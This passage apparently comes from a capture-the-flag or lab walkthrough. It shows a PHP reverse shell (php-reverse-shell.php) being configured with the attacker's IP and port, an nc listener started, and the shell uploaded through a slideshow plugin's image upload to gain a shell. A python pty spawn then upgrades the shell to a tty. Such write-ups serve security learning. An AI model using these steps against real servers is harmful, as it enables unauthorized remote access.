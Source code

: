 `cp /usr/share/webshells/php/php-reverse-shell.php .`

Edit the shell using your favorite text editor so it will connect to your local machine at the correct IP and port.

```
set_time_limit (0);
$VERSION = "1.0";
$ip = 'local.machine.ip.addr';  // CHANGE THIS
$port = PORTNUM;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Start your listener before uploading the shell.

`nc -lnvp PORTNUM`


Click on the Slideshow Plugin Panel, and hit the  __*Add New*__ button.

<br>
![a13](https://i.imgur.com/dRRZTsW.png)
<br>

Populate the title and description fields and upload the shell file.

<br>
![a14](https://i.imgur.com/o8we9ln.png)
<br>

If your listener is running and you've set the parameters correctly, the shell will pop as soon as you press __"Save Slide"__. <br>

In fact, if I needed to, I could just refresh the slideshow plugin page if I needed to resend the shell command. This must be because the plugin control page attempts to show a preview of the image.


<br>
![a15](https://i.imgur.com/YXE4YhG.png)
<br>

Check for python, and when you find it, use it to spawn a tty.


`which python` <br>
`python -c 'import pty;pty.spawn("/bin/bash")'`


<br>
![a16](https://i.imgur.com/x9nVe74.png)
<br>

## 5. Science 101 with Professor `www-data`
